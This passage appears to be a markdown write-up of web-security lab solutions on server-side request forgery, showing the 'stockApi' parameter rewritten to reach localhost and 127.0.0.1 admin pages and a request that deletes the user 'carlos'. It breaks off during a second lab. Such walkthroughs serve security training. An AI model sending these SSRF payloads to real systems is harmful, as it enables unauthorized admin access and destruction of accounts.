




## Basic SSRF against the local server

+ Injection Point
  


+ Change to 
```http
stockApi=http://localhost/admin
or
stockApi=http://127.0.0.1/admin
```



+ Delete user carlos

```
stockApi=http://localhost/admin/delete?username=carlos
```





## Basic SSRF against another back-end system
+ Injection Point


+ Detect 